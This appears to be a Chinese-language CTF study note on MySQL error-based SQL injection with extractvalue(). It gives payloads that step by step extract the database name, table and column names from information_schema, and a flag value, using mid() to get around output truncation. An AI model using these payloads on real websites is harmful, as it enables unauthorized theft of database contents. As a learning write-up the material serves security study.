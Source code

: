 *三种方法extractvalue() updatexml() floor()*

extractvalue():

extractvalue报错注入:0x7e就是~用来区分数据
里面用select语句，不能用union select

concat()函数
1.功能：将多个字符串连接成一个字符串。
2.语法：concat(str1,str2,…)
返回结果为连接参数产生的字符串，如果有任何一个参数为null，则返回值为null。

extractvalue报错注入语句格式:

```
?id=2 and extractvalue(null,concat(0x7e,(sql语句),0x7e))
```

接着就可以爆库，构造payload,爆出一个库为sqli

```
?id=1 and extractvalue(null,concat(0x7e,(database()),0x7e))
```

![image-20240120154649853](E:\学习资料\网安\笔记\笔记截图\image-20240120154649853.png)

爆库成功，接着爆第一个表limit 0,1，构造payload成功爆出了表名

```
1 and extractvalue(null,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1),0x7e))
```

![image-20240120155140617](E:\学习资料\网安\笔记\笔记截图\image-20240120155140617.png)

接下来爆字段名，构造payload

```
1 and extractvalue(null,concat(0x7e,(select column_name from information_schema.columns where table_schema=database() and table_name='flag' limit 0,1),0x7e))
```

![image-20240120155403077](E:\学习资料\网安\笔记\笔记截图\image-20240120155403077.png)

接着爆字段内容但只得到了一部分的flag

```
1 and extractvalue(null,concat(0x7e,(select flag from flag limit 0,1),0x7e))
```

![image-20240120155534773](E:\学习资料\网安\笔记\笔记截图\image-20240120155534773.png)

这时候就需要用到mid函数来让flag显示完全

```mysql
2 and extractvalue(null,concat(0x7e,mid((select flag from flag),4),0x7e))
```

![image-20240120155927173](E:\学习资料\网安\笔记\笔记截图\image-20240120155927173.png)
